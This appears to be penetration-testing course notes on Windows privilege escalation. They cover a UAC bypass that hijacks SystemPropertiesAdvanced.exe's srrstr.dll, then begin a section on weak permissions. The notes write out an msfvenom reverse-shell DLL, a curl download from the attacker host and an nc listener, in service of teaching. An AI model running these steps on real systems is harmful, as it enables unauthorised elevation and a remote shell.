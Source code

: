**The value of ConsentPromptBehaviorAdmin is 0x5, which means the highest UAC level of Always notify is enabled. There are fewer UAC bypasses at this highest level.**

**Checking Windows Version**
````
> [environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0
````
The UACME project maintains a list of UAC bypasses, including information on the affected Windows build number, the technique used, and if Microsoft has issued a security update to fix it. Let's use technique number 54, which is stated to work from Windows 10 build 14393. This technique targets the 32-bit version of the auto-elevating binary SystemPropertiesAdvanced.exe. There are many trusted binaries that Windows will allow to auto-elevate without the need for a UAC consent prompt.
- https://github.com/hfiref0x/UACME
- https://egre55.github.io/system-properties-uac-bypass/

**Reviewing Path Variable**
````
# Reviewing Path Variable
> cmd /c echo %PATH%

C:\Windows\system32;
C:\Windows;
C:\Windows\System32\Wbem;
C:\Windows\System32\WindowsPowerShell\v1.0\;
C:\Users\<user>\AppData\Local\Microsoft\WindowsApps;
````
We can potentially bypass UAC in this by using DLL hijacking by placing a malicious srrstr.dll DLL to WindowsApps folder, which will be loaded in an elevated context.

**UAC Bypass**
````
# Generating Malicious srrstr.dll DLL
> $ msfvenom -p windows/shell_reverse_tcp LHOST=<Our_IP> LPORT=<Our_Port> -f dll > srrstr.dll

# Downloading DLL Target
>curl http://<Our_IP>:8080/srrstr.dll -O "C:\Users\<user>\AppData\Local\Microsoft\WindowsApps\srrstr.dll"

# Starting nc Listener on Attack Host
$ nc -lnvp <Our_Port>

# Execute SystemPropertiesAdvanced.exe
> C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
````

## Weak Permissions

Permissions on Windows systems are complicated and challenging to get right. A slight modification in one place may introduce a flaw elsewhere. As penetration testers, we need to understand how permissions work in Windows and the various ways that misconfigurations can be leveraged to escalate privileges. The permissions-related flaws discussed in this section are relatively uncommon in software applications put out by large vendors (but are seen from time to time) but are common in third-party software from smaller vendors, open-source software, and custom applications. Services usually install with SYSTEM privileges, so leveraging a service permissions-related flaw can often lead to complete control over the target system. Regardless of the environment, we should always check for weak permissions and be able to do it both with the help of tools and manually in case we are in a situation where we don't have our tools readily available.
